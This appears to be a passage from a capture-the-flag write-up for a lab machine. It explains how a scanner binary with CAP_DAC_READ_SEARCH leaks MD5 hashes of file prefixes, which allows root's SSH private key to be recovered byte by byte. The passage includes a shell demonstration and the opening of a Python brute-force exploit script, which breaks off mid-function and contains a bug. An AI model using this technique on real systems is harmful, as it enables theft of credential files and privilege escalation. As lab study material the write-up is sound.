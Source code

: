 ```console

        Expected output:
        1. Empty if no matches found
        2. A line for every match, example:
                [+] {LABEL} matches {FILE}

  -c string
        Path to image file to check. Cannot be combined with -d
  -d string
        Path to image directory to check. Cannot be combined with -c
  -h string
        Path to colon separated hash file. Not compatible with -p
  -l int
        Maximum bytes of files being checked to hash. Files smaller than this value will be fully hashed. Smaller values are much faster but prone to false positives. (default 500)
  -p    [Debug] Print calculated file hash. Only compatible with -c
  -s string
        Specific hash to check against. Not compatible with -h
```

#### vuln analysis

`/opt/scanner/scanner` is able to read unrestricted file because of `CAP_DAC_READ_SEARCH` capability and is able to compute first n bytes of the file into md5 hash value.

So, read the hash **byte-by-byte** and brute-force to decrypt the current one byte.

### exploit

```console
greg@intentions:/dev/shm$ /opt/scanner/scanner -c /root/.ssh/id_rsa -l 1 -s imqwe -p
[DEBUG] /root/.ssh/id_rsa has hash 336d5ebc5436534e61d16e63ddfca327
greg@intentions:/dev/shm$ echo -n '-' | md5sum
336d5ebc5436534e61d16e63ddfca327  -
```

```python
import hashlib
import string
import argparse
import subprocess
import re

parser = argparse.ArgumentParser(description='Read an arbitrary file')
parser.add_argument('--filename', '-f', type=str, help='The file to read', required=True)

args = parser.parse_args()


def get_hash(filename, byte_size):
    cmd = f"/opt/scanner/scanner -c {filename} -l {byte_size} -s imqwe -p"
    dbg = subprocess.run(cmd, shell=True, text=True,\
        stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    res = dbg.stdout.readlines()  # [DEBUG] /root/.ssh/id_rsa has hash 336d5ebc5436534e61d16e63ddfca327
    match = re.search(r'\b[a-f0-9]{32}\b', res)
    if match:
        return match.group(0)
    else:
        print(f"[!] Error no hash inside: {res}")
        return None
    
    
def brute_force_byte(hash, prefix):
    for c in string.printable:
```